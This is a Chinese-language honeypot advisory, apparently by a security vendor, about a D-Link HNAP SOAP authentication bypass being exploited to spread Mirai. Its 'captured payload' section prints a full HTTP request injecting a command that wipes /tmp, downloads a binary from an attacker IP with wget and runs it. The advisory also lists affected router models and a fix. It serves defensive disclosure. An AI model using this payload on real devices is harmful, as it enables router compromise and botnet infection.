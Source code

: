 ```yaml
---
layout:     post
title:      D-Link HNAP SOAP 查询验证绕过漏洞通报
subtitle:   D-Link
date: 2018-08-22
author:     shenzhen_antiy_wly
header-img: img/avatar-by.jpg
catalog: true
tags:
    - honeypot_event
---
```


# D-Link HNAP SOAP 查询验证绕过漏洞通报

## 概述

2018年8月22日，安天蜜网捕获到利用D-Link HNAP SOAP 查询验证绕过漏洞的攻击流量，并关联到一个僵尸网络站点，监控到里面有bin僵尸程序，站点地址为：http://176.32.32.156.

## 漏洞描述

通过使用hxxp：//purenetworks.com/HNAP1/GetDeviceSettings可以创建一个可以绕过认证的SOAP查询。 另外，由于不正确的字符串处理，运行系统命令（导致任意代码执行）是可行的。 当两个问题结合在一起时，可以形成一个首先绕过认证的SOAP请求，然后导致任意代码执行.

## 捕获载荷

```
POST /HNAP1/ HTTP/1.0..Content-Type: text/xml; charset=\"utf-8\"..SOAPAction: http://purenetworks.com/HNAP1/`cd /tmp && rm -rf * && wget http://176.32.32.156/bin && sh /tmp/bin`..Content-Length: 640....<?xml version=\"1.0\" encoding=\"utf-8\"?><soap:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\"><soap:Body><AddPortMapping xmlns=\"http://purenetworks.com/HNAP1/\"><PortMappingDescription>foobar</PortMappingDescription><InternalClient>192.168.0.100</InternalClient><PortMappingProtocol>TCP</PortMappingProtocol><ExternalPort>1234</ExternalPort><InternalPort>1234</InternalPort></AddPortMapping></soap:Body></soap:Envelope>..~
```



## 	攻击IP及URL

http://176.32.32.156/bin

## 样本



| 文件名 | 病毒家族 | Hash                             |
| ------ | -------- | -------------------------------- |
| bin    | Mirai    | 5ab32bdead9a6043f0db9ab7809be4f1 |



## 受影响范围



DAP-1522 revB

DAP-1650 revB

DIR-880L

DIR-865L

DIR-860L revA

DIR-860L revB

DIR-815 revB

DIR-300 revB

DIR-600 revB

DIR-645

TEW-751DR

TEW-733GR 





## 修复及防护建议



关闭HNAP或使用官网的固件补丁进行升级



## 参考资料



[1]     D-Link DIR-890L安全分析报告

<http://www.freebuf.com/vuls/64521.html>

[2]     Masuta : Satori 开发者的第二个僵尸网络，利用新的路由器漏洞实现武器化

<http://www.myzaker.com/article/5a6fc5b51bc8e0ac5a00000a/>

[3]     Hacking the D-Link DIR-890L

<http://www.devttys0.com/2015/04/hacking-the-d-link-dir-890l/>
